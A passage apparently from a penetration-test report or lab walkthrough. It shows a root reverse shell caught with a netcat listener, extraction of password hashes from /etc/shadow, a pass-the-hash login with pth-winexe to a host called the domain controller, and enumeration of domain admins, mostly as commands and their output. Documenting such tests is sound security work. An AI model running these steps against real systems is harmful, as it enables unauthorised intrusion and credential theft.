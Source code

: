 ```bash
# Privilege Escalation Execution
sudo /opt/scripts/backup.sh
```

#### Root Access Achievement

```bash
# Reverse Shell Connection Established
[root@attacker]# nc -nlvp 4444
Connection from 192.168.78.20:56789
bash: no job control in this shell

root@app-server-01:/# whoami
root

root@app-server-01:/# id
uid=0(root) gid=0(root) groups=0(root)

# Password Hash Extraction
root@app-server-01:/# cat /etc/shadow | grep -v ':\*:' | grep -v ':\!:'
root:$6$rounds=5000$abc123def456$...:19195:0:99999:7:::
jsmith:$6$rounds=5000$xyz789uvw012$...:19195:0:99999:7:::

# EVIDENCE: Root-level access achieved + credential hashes captured
```

---

### 🎯 Phase 6: Domain Compromise Evidence

#### Pass-the-Hash Attack Execution

```bash
# Using Extracted Local Admin Hash
pth-winexe -U administrator//aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 //192.168.78.40 cmd

Emitted LMHASH is NULL. You should try to use NT hashes only
Microsoft Windows [Version 10.0.17763.1999]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

# SUCCESS: Domain controller compromised via pass-the-hash
```

#### Domain Privilege Verification

```bash
C:\Windows\system32>net user administrator
User name                    Administrator
Full Name                    Administrator
Comment                      Built-in account for administering the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

C:\Windows\system32>net group "Domain Admins"
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

```